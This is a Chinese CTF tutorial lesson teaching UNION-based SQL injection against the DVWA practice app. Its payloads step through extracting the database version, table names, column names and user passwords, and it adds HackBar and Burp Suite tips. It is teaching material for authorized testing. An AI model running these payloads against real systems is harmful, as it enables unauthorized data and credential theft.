








# CTF入门教程：P22：web-获取数据

在本节课中，我们将学习如何利用SQL注入漏洞获取数据库信息，包括版本、数据库名、表名、字段名以及表中的具体数据。这是CTF-Web方向中非常核心的技能。

上一节我们介绍了SQL联合查询的基本原理，本节中我们来看看如何利用联合查询来获取目标数据库的具体信息。

## 获取数据库版本和名称

首先，我们需要确定注入点并构造闭合。例如，一个常见的注入点可能形如 `id=1`。我们可以通过 `id=1' union select 1, version(), database() --+` 这样的语句来获取数据库版本和当前数据库名称。

以下是一个操作示例：
```sql
1' union select 1, version(), database() --+
```
执行后，查询结果会显示版本信息（如 `5.5.53`）和数据库名称（如 `DVWA`）。

## 获取数据库中的表名

获取数据库名称之后，下一步是获取该数据库中包含哪些表。MySQL数据库有一个名为 `information_schema` 的系统数据库，其中的 `tables` 表存储了所有表的信息。



我们可以从 `information_schema.tables` 表中查询指定数据库的表名。构造的SQL语句如下：
```sql
1' union select 1, 2, table_name from information_schema.tables where table_schema='DVWA' --+
```
执行此语句，即可列出 `DVWA` 数据库中的所有表名。

## 获取表中的字段名



知道表名后，我们可以进一步获取表中包含哪些字段（列）。字段信息存储在 `information_schema.columns` 表中。

以下是获取 `users` 表字段名的示例语句：
```sql
1' union select 1, 2, column_name from information_schema.columns where table_name='users' --+
```
有时，为了适应只输出单行结果的场景，可以使用 `group_concat()` 函数将所有字段名合并为一行输出：
```sql
1' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='users' --+
```

## 获取表中的数据记录

最后，我们可以查询表中的具体数据。例如，获取 `users` 表中的用户名和密码：
```sql
1' union select 1, user, password from users --+
```
这样就能输出 `users` 表中的每条记录。





在实战或CTF比赛中，通常证明到能够获取数据库版本和名称，就足以说明漏洞存在。请务必遵守法律法规，仅用于授权测试，切勿修改或泄露他人数据。





## 工具与答疑



在操作过程中，使用浏览器插件（如HackBar）可以更方便地构造和发送Payload。以下是关于工具使用的常见问题解答：

**Q: 如何安装HackBar插件？**
A: 在火狐（Firefox）浏览器的扩展管理页面，搜索“HackBar”或“HackBar Omega”，找到后点击添加即可。

**Q: Burp Suite启动无反应怎么办？**
A: Burp Suite基于Java开发，请确保Java环境版本兼容。可以尝试在Burp Suite解压目录下，打开命令行终端，手动执行启动命令。

**Q: 无法访问 `http://burp` 下载证书？**
A: 请确保Burp Suite的代理功能已开启，并且浏览器已正确配置代理指向Burp。



本节课中我们一起学习了如何通过SQL联合查询注入，逐步获取数据库的版本、库名、表名、字段名及具体数据。下一节，我们将介绍SQL盲注，即在不直接显示查询结果的情况下进行注入攻击。